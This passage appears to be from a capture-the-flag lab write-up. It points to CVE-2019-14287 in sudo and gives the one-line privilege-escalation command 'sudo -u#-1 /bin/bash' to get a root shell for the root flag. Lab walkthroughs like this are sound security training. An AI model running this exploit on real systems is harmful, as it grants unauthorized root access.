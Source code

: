 <figure><img src=".gitbook/assets/Schermata del 2023-07-04 20-03-10.png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-04 20-09-48.png" alt=""><figcaption></figcaption></figure>

</div>

In alternative we can retrieve sudo version and find it on searchsploit.\


{% hint style="info" %}
CVE-2019-14287
{% endhint %}

#### 6.2 - What is the root flag?

We use this exploit to scale privileges:\


```bash
sudo -u#-1 /bin/bash
```
